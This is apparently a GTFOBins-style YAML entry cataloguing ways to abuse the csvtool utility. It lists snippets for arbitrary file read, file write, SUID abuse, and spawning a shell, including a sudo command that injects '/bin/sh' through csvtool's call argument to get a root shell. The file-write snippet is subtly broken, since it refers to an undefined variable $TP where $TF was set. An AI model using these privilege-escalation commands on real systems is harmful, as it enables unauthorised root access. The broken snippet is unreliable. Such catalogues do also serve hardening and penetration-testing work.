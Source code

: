 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file-to-read.txt
        csvtool trim t $LFILE
  file-write:
    - code: |
        LFILE=file-to-write
        TF=$(mktemp -u)
        echo DATA > $TF
        csvtool trim t $TP -o $LFILE
  suid:
    - code: |
        LFILE=file-to-read
        ./csvtool trim t $LFILE
  shell:
    - code: csvtool call '/bin/sh;false' /etc/passwd
  sudo:
    - code: sudo csvtool call '/bin/sh;false' /etc/passwd
---
```

